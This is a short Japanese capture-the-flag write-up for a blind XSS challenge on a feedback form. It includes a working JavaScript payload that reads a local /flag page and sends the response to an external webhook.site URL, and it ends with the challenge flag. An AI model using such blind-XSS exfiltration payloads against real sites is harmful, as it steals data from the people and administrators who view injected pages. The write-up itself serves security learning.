 # Writeup

* http://web.zh3r0.cf:3333/feedback

上記のページにアクセスする。

![](img/2021-06-06-00-44-18.png)

問題タイトルが`bxss`ということで、XSSを試してみる。

```js
<script>window.onload(webhookのURL);</script>
```

と入力すると、サーバーサイドでURLにアクセスしていることが分かった。

また、 

* http://web.zh3r0.cf:3333/flag

にアクセスすると、`Not Found`ではなく

![](img/2021-06-06-00-46-50.png)

と表示されることから、ローカルの`flag`を読み出せばよいことが分かる。

以下のコードをFormに入力するとフラグが得られる。

```js
<script>
var uri = "https://webhook.site/d709442c-232a-41d2-929d-2371e1f4d0cf/?q=";
try {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'flag', false);
    xhr.send(null);
    window.open(uri+xhr.responseText);
} catch (e){
    window.open(uri+e);
}
</script>
```

![](img/2021-06-06-00-43-31.png)

<!-- zh3r0{{Ea5y_bx55_ri8}} -->
